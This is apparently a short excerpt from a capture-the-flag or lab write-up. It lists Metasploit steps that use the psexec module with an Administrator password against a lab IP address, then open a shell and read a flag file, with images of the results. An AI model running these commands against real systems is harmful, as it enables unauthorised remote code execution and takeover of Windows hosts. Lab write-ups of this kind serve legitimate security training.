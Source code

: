  <img src="brute.png" width=65% height="auto"><br><br>
### Exploit with psexec modules
 - use exploit/windows/smb/psexec
 - set RHOSTS 10.3.23.123
 - set SMBUser Administrator
 - set SMBPass qwertyuiop
 - exploit <br>
<img src="psexec.png" width=65% height="auto"><br><br>
### Capture the Flag
 - shell
 - cd /
 - dir
 - type flag.txt <br>
